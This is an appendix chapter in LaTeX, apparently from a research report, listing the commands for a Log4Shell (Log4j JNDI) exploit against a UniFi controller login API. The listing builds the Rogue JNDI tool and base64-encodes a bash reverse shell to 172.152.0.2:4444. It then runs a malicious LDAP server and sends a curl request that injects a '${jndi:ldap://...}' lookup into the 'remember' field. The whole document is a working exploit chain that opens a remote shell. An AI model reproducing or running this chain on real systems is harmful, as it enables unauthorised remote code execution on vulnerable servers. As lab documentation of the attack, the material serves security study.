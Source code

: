 \chapter{Log4j Scenario - Running Exploit} \label{ap1:unifi_clone_rogue_jndi}

\begin{lstlisting}[language=bash,caption=Log4j Scenario - Running Exploit.]
# Clone Rogue JNDI GitHub repository and build project
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package

# Create the Base64 payload 
echo 'bash -c bash -i >&/dev/tcp/172.152.0.2/4444 0>&1' | base64

# Running the malicious LDAP and HTTP Server with the Base64 malicious payload. The hostname flag denotes the target HTTP server.
java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTcyLjE1Mi4wLjIvNDQ0NCAwP
iYxCg==}|{base64,-d}|{bash,-i}" --hostname "172.152.0.2"

# Running Exploit
curl 'https://example-domain.ui.com:8443/api/login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Referer: https://example-domain.ui.com:8443/manage/account/login?redirect=%2Fmanage' -H 'Content-Type: application/json; charset=utf-8' -H 'Origin: https://example-domain.ui.com:8443' -H 'Connection: keep-alive' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' --data-raw '{"username":"a","password":"a","remember":"${jndi:ldap://172.152.0.2:1389/o=tomcat}","strict":true}'
\end{lstlisting}